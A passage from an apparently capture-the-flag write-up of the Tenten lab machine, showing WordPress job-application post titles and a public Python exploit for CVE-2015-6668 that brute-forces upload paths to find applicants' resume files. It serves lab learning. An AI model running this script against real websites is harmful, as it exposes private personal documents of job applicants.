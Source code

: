     12: Job Application: Application
    13: Job Application: HackerAccessGranted
    14: Job Application
    15: Job Application
    16: Job Application
    17: Job Application
    18: Job Application
    19: Job Application
    20: Job Application
    21: Job Application
    22: Job Application
    23: Job Application
    24: Job Application
    25: Job Application
    

I’ll compare this to the actual database in Beyond Root.

#### Find Files

The next step in the exploit it to find the file associated with the upload.
The idea is that now that I know the name of the post (which for this plugin
is the name of the applicant), I can find the associated resume uploads. The
exploit site has a script to brute force looking for file paths that are based
on upload date.

    
    
    import requests
    
    print """  
    CVE-2015-6668  
    Title: CV filename disclosure on Job-Manager WP Plugin  
    Author: Evangelos Mourikis  
    Blog: https://vagmour.eu  
    Plugin URL: http://www.wp-jobmanager.com  
    Versions: <=0.7.25  
    """  
    website = raw_input('Enter a vulnerable website: ')  
    filename = raw_input('Enter a file name: ')
    
    filename2 = filename.replace(" ", "-")
    
    for year in range(2013,2018):  
        for i in range(1,13):
            for extension in {'doc','pdf','docx'}:
                URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
                req = requests.get(URL)
                if req.status_code==200:
                    print "[+] URL of CV found! " + URL
    

I changed the years to go through all of 2017, since that’s when Tenten
retired.

Given that I have nothing else to work with, I’ll look for the file name
`HackAccessGranted`:
